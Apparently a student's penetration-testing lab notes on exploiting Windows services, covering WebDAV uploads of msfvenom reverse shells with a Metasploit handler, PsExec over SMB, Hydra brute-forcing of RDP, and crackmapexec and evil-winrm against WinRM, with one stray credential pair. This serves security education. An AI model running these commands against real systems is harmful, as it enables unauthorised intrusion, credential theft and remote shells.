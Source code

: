 
---


## Exploiting Microsoft IIS WebDAV



Go back to Lesson 1 (Vulnerability Assessment) under Assessment_Methodology

---


## Exploiting WebDAV with MSF


Instead of uploading a reverse shell file that Kali has by using cadaver tool, we will use MSF venom to create the reverse shell code ourselves.

To create a meterpreter reverse shell session using msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=(our IP addrress) LPORT=(port number we will listen to) -f (file format) > (filename.fileformat ) `

**If we are not sure about the architecture of the target we are dealing with whether it was 32-bit or 64-bit, choosing 32-bit will work either way.**

This will generate to us a script in the format that we specified in a file that we specified its name.

In our example, we create a .asp file that we will upload to the WebDAV service that is running on our target using cadaver.

After uploading the reverse shell file, we will start postgresql and msf  as usual.

In msfconsole, we will start the module multi/handler by :`use multi/handler`  which is a **universal payload handler** used to catch and interact with reverse shells and Meterpreter sessions from compromised targets.

We will use the same payload name that we specified earlier, in our case is "windows/meterpreter/reverse_tcp" and we also need to specify our IP address and port number. **IP address and port number have to be the same as we specified in the reverse shell file that we created earlier.**
The entire command to set this up is:
```bash 
msf6> use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST (your IP address)
set LPORT (open port number)
run 
```

Then, we click on the file that we uploaded on the target site to execute the code and to create a meterpreter session in msf.

After getting a meterpreter session in msf, we can switch to a shell session to have full functionality of a command line by: `shell`

**Luckily, there is a msf module that we can use that would automate the whole process for us, the module is: "exploit/windows/iis/iis_webdav_upload_asp"**

Note: when specifying the path, we need to also specify the filename with its extension (always .asp in this case).

The module will need the valid credentials to access the WebDAV service for it to work. 

---

## Exploiting SMB With PsExec

### SMB Authentication

The SMB protocol utilizes two levels of authentication:
- User Authentication
- Share Authentication

**User Authentication:** Users must provide a username and password to access the SMB server and to access the shares.
**Share Authentication**: Users must provide a password in order to access restricted shares.

**Note: Both of these authentication levels utilize a challenge response authentication system**

### PsExec

PsExec is a lightweight telnet-replacement developed by Microsoft that allows us to execute processes on remote windows systems using any user's credentials.

PsExec authentication is performed by SMB.

We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.

It is very similar to RDP, however, instead of controlling the remote system via GUI, command are sent via CMD.

In order to utilize PsExec, we need a set of valid credentials that has a username and password or password hash.

We can obtain a valid set of credentials by performing brute force attack on SMB 

After using the "scanner/smb/smb_login" module in msf to brute force a valid set of credentials, **we will use the "psexec.py" script to have a reverse shell to the target. This script could be found under "/usr/share/doc/python3-impacket/examples"**

To use it:`python3 ./psexec.py (username):(password)@(target IP)`

---

## Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)


Refer to Lesson 2 (Vulnerability Analysis) in Assessment_Methodologies/Vulnerability Assessment.

---


## Exploiting RDP

RDP authentication requires a valid user account on the target system as well as the password in clear text.
We can preform an RDP brute-force attack to identify valid credentials.

Sometimes, Nmap can't reveal what service is running on some ports. To make sure that RDP is running on a certain port, we can use the MSF module: "scanner/rdp/rdp_scanner". This will reveal to us whether if RDP is running on a certain port or not.

To brute-force RDP, we will use Hydra:`hydra -L (users list) -P (passwords list) rdp://(targetIP):(port)`

**Note: To be more quieter and to not crash the service we are brute-forcing in to, we can reduce the parallel tasks that hydra is doing by using the option "-t"**

**After getting valid credentials, we will use a tool called "- xfreerdp"** to connect via RDP.

We will use it like so:`xfreerdp /v:(target-ip) /u:(username) /p:(password)`

---

## Exploiting WinRM

Microsoft implemented WinRM in to Windows in order to make life easier for system administrators. 

WinRM is typically used in the following ways:
- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems.
- Manage and configure Windows systems remotely.

**WinRM typically uses TCP port 5985 and 5986 over HTTPS.**

WinRM implements access control and security for communication between systems through various forms of authentication.

**We can utilize a utility called "crackmapexec" to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.**

**We can also utilize a ruby script called "evil-winrm" to obtain a command shell session on the target system.**

We can use crackmapexec like so: `crackmapexec winrm (target IP) -u (username or usernames list file) -p (password or passwords list file)`

administrator:tinkerbell

We can use crackmapexec to execute commands as well by using the option:"-x". For example, if we want to execute the command to know what user we are logged in as, we can do so by: `crackmapexec winrm (target IP) -u (valid username) -p (valid password) -x "whoami"`

To use evil-winrm:`evil-winrm -i (target IP) -u (valid username) -p (valid password)` . This will give us a reverse shell session on the target machine.

**We can also use the exploit model in MSF to get a meterpreter session to the target system: windows/winrm/winrm_script_exec**

